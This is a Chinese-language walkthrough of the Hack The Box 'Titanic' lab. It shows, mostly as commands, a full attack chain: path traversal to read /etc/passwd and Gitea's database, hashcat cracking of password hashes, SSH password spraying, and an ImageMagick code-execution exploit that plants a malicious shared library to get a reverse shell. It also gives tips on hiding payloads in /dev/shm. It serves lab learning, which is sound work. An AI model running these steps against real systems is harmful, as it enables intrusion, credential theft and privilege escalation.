










# Titanic

Gitea —— 一个用 Go语言（Golang） 编写的轻量级 Git 服务器
```
$ echo -e '10.129.231.221 titanic.htb\n10.129.231.221 dev.titanic.htb' | sudo tee -a /etc/hosts
```

## 1.BurpSuite__http://titanic.htb
拦截下载页面，下载内容是提交信息，生成.json文件

### [1]直接Send,Forward,Forward立即跳出内容

### [2]在获得的GET请求 /download?ticket=/etc/password Send，内容会在Respinse中出现


## 2.找出子域名
Seclists 是一个非常流行的安全测试和渗透工具列表，里面包含了各种常用的字典和资源
`git clone https://github.com/danielmiessler/SecLists.git`


## 3.在dev.titanic.htb的Explore里面，总体主要内容，非操作
```
Repositories
├── developer/docker-config      # Docker 配置集合
│   ├── gitea/                   # 包含 Gitea 服务的 docker-compose 配置
│   │   └── docker-compose.yml
│   └── mysql/                   # 包含 MySQL 服务的 docker-compose 配置
│       └── docker-compose.yml
└── developer/flash-app          # 基于 Python 的 Web 应用，使用 Flask 框架开发
```
docker-compose.yml
```
version: '3'  ##Docker Compose V3 格式，适用于 Docker 1.13+

services:     ##定义服务块，每一个子项如gitea就是一个独立的服务
  gitea:      ##定义一个名为 gitea 的服务，也就是 Gitea Git 服务器实例
    image: gitea/gitea      ##指定使用的镜像为 gitea/gitea，这是官方发布在 Docker Hub 上的 Gitea 镜像
    container_name: gitea   ##给这个容器取一个固定的名字叫 gitea
    ports:
      - "127.0.0.1:3000:3000"      ##把宿主机的 localhost:3000 映射到容器的 3000 端口，用于访问 Gitea Web UI
      - "127.0.0.1:2222:22"        ##把宿主机的 localhost:2222 映射到容器的 22 端口，供 Git over SSH 使用
    volumes:                             ##即使容器被销毁，数据也会保留在宿主机中
      - /home/developer/gitea/data:/data ##数据挂载：宿主机路径/home/developer/gitea/data 映射到容器的/data 目录
    environment:        ##环境变量设置
      - USER_UID=1000   ##设置容器内运行 Gitea 的用户 UID 为 1000
      - USER_GID=1000   ##设置 GID 为 1000；可以避免数据权限不一致的问题，通常 1000 是默认的第一个非 root 用户 UID
    restart: always     ##指定容器自动重启策略为 always；无论是否正常退出，都会重启容器；系统重启后也会自动拉起这个服务
```
## 4.搬运容器操作
#### 在主机上创建一个文件夹，把 docker-compose.yml 粘贴进去，然后运行 docker-compose up -d，即可启动容器。
```
$ mkdir gitea
$ cd gitea
$ sudo systemctl start docker            //启动 Docker 守护进程

$ vi docker-compose.yml                  //在http://dev.titanic.htb复制docker-compose.yml里边的内容
$ docker compose up -d                   //启动容器,-d 表示后台运行
$ sudo docker compose ps                 //查看当前运行的容器状态
$ sudo docker compose exec -it gitea sh  //exec：执行容器内命令;-it：交互模式并分配伪终端;gitea：容器名称;sh：进入容器时使用的 Shell

/ # pwd                                  //在容器中查看目录结构
/ # cd data/gitea/conf                   //通常这是挂载卷映射的目录
/data/gitea/conf # ls                    //显示 app.ini，它是 Gitea 的主配置文件
app.ini
```
#### 结果获得一个路径为/data/gitea/conf/app.ini
因为
```
//docker-compose.yml 中配置了 volume
volumes:  
  - /home/developer/gitea/data:/data
```
所以
```
容器内的 /data/gitea/conf/app.ini
=
宿主机的 /home/developer/gitea/data/gitea/conf/app.ini
```
## 5.在第一个burpsuite拦截的页面把/etc/passwd换成得到的路径

#### 目的：BurpSuite（或者说攻击者）能通过 app.ini 中这段配置发现 SQLite 数据库的路径：
```
[database]
DB_TYPE = sqlite3
PATH = /data/gitea/gitea.db //Gitea 使用 SQLite 数据库，并且数据库文件就存放在这
```
## 6.信息泄露利用操作
通过目标服务器上暴露的 HTTP 接口，下载 Gitea 服务的 SQLite 数据库文件


[1]两个用户
```
$ echo -e 'administrator\ndevelop' > user  //把两个用户名写进users，-e启用\n作为换行符
```
[2]发现了 密码哈希 和 加密方式：pbkdf2$50000$50：使用 PBKDF2，迭代 50000 次，salt 长度 50

发现pbkdf2$50000$50时，在Google搜索的关键词是：'gitea to hachcat'

“gitea to hashcat” 意思是：

 “如何将 Gitea 中提取的 pbkdf2 哈希导入 Hashcat 进行破解”
 
「如何从 Gitea 导出密码哈希，然后用于 Hashcat 破解」

```
$ wget https://raw.githubusercontent.com/unix-ninja/hashcat/faa680fbab803723d77449b7107c1c985a6b7981/tools/gitea2hashcat.py

$ sqlite3 gitea.db 'select salt,passwd from user;' | python3 gitea2hashcat.py
```

```
$ vi titanic.gitea

$ cp /usr/share/wordlists/rockyou.txt.gz ~/
$ gzip -d ~/rockyou.txt.gz

$ hashcat titanic.gitea rockyou.txt
```

密码为25282528
#### 使用 nxc 来 对多个用户名尝试同一个密码
```
$ nxc ssh 10.129.231.221 -u user -p '25282528'

SSH     10.129.231.221 22     10.129.231.221    [+] developer:25282528 Linux - Shell access!
```
administrator 为 Gitea admin 用户：	破解后可用于控制整个平台｜developer 为 开发者账户：破解后可能用于实际系统访问权限

就可以开始远程登陆了
```
$ ssh developer@10.129.231.221
```
## 7.目标为启动identify_images.sh脚本
```
developer@titanic:/opt/scripts$ ls   // 通常用来存放各种脚本的路径/opt/scripts/
identify_images.sh
developer@titanic:/opt/scripts$ cat identify_images.sh //可能是一个用于识别或处理图片文件的脚本
```

```
cd /opt/app/static/assets/images  //切换到图片所在目录
truncate -s 0 metadata.log        //清空旧的元数据日志文件;truncate：用于修改文件的大小;-s 0：指定将文件大小设置为 0
find /opt/app/static/assets/images/ -type f -name "*.jpg" | xargs /usr/bin/magick identify >> metadata.log

//find：查找命令;/opt/app/static/assets/images/：指定要查找的目录；-type f：只找普通文件；-name "*.jpg"：文件名以 .jpg 结尾
//xargs：把输入的文件名列表一一传给后面的命令；magick 是 ImageMagick 图像处理工具的主命令；对每张图片执行 identify，提取其基本元数据
//>> 表示将输出“追加”写入到 metadata.log 文件中（不会覆盖原有内容）
```
### [1]$ /usr/bin/magick -version

Google: ImageMagick 7.1.1-35 expolit  //AppImage 版本 ImageMagick 中的任意代码执行漏洞

攻击者常用 /dev/shm 储存恶意脚本或 payload，因为：快速、不落地 ｜一般不会被杀毒或日志记录 ｜ 重启即清除，不留痕

/dev/shm 是基于内存（RAM）的虚拟文件系统，供进程间共享数据（如共享内存 IPC）或临时高速缓存使用；｜通常在启动时由系统自动挂载到 /dev/shm


```
//delegates.xml在当前工作目录中创建一个文件：
cat << EOF > ./delegates.xml
<delegatemap><delegate xmlns="" decode="XML" command="id"/></delegatemap>
EOF
```
解析：“Here Document”（缩写为 heredoc）是 Bash 和其他 shell 中的一种将多行字符串作为输入的语法方式，常用于生成文件或传递多行文本
```
cat << EOF           //这是 Here Document（heredoc） 语法
> ./delegates.xml    //	把标准输入的内容重定向输出到 delegates.xml 文件中（覆盖写入）
<delegatemap>...     //是写入的 XML 内容
EOF                  //heredoc 结束标志，写在行首表示输入结束

<delegate xmlns="" decode="XML" command="id"/>
<delegatemap>        //ImageMagick 的 delegate 配置根标签
<delegate>           //定义一个“代理操作”
xmlns=""             //XML 命名空间，留空
decode="XML"         //指定处理的数据类型是 XML
command="id"         //这里注入了系统命令 id，目的是执行并输出当前用户信息
```
运行ImageMagick以delegates.xml验证命令id是否已执行：
```
developer@titanic:/dev/shm$ /usr/bin/magick identify delegates.xml  //验证

developer@titanic:/dev/shm$ mv delegates.xml delegates.jpg
developer@titanic:/dev/shm$ magick identify delegates.jpg
```

### [2]在当前工作目录中创建共享库：  
```
developer@titanic:/dev/shm$ gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
```


解析：

gcc -x c :GNU C 编译器,强制将输入解释为 C 语言

-shared:	编译为共享库（.so 文件）

-fPIC:	生成与位置无关的代码（适用于动态链接库）

-o ./libxcb.so.1:	指定输出文件名为 libxcb.so.1

<< EOF ... EOF:	heredoc，将下面的 C 代码传入 gcc 编译
```
这三行是引入标准头文件，用于后续调用函数：
<stdio.h>：标准输入输出库，比如 printf()
<stdlib.h>：包含 system() 和 exit()
<unistd.h>：提供 exec()、fork() 等 UNIX 系统调用（虽然这里没用到）

__attribute__((constructor)) 会让这个函数 init() 在共享库被加载时自动运行，在 main() 之前执行
```
### [3]植入反向shell

反向shell在libxcb.so.1，把它拷贝到指定路径，挺重要一步的
```
developer@titanic:/dev/shm$ cp libxcb.so.1 /opt/app/static/assets/images/
```
这一次，后nc,竟然直接就连上了



